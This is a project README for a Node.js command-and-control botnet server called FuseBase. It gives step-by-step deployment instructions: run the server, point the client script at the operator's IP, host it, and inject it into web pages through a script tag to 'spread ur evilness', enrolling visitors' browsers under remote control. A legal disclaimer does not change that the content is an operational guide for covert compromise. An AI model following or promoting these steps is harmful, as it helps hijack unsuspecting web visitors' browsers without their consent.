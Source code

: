 # FuseBase
A C&C ~botnet~ server made in nodejs

# Documentation / Build Status
![docs progress badge](https://lukas2005.github.io/FuseBase/badge.svg)

# NOTE
I don't take any responsibility for what you will do with this software/code.
Remember that running malicious code on someone's machine without their knowledge is illegal.

# Prerequisities
1. Latest Nodejs

# How to:
## Step 1: Fork, Clone & Install
1. Fork this repo (it will be handy later, altho you can skip this if you have a place to host js files)
2. Clone/Download the repo to your PC
3. Run `npm install` in the root

## Step 2: Run and JS inclusion
1. Run `npm start` in the root dir
2. Edit `src/client/client.js` with any text editor and change the `nodeJsIp` const to `http://yourip:3000` (you might wanna get a DDNS)
3. (Here is where the hosting part comes in) grab a link to `src/client/client.js` and include it wherever u wanna spread ur evilness (or goodness depending on what ur doing) AKA normal `<script src="link"></script>` anywhere in the html.
4. Get into the W.I.P Control Panel `yourip:3000`

## Step 3: Use existing modules or write your own:
See the [Documentation](https://lukas2005.github.io/FuseBase/)
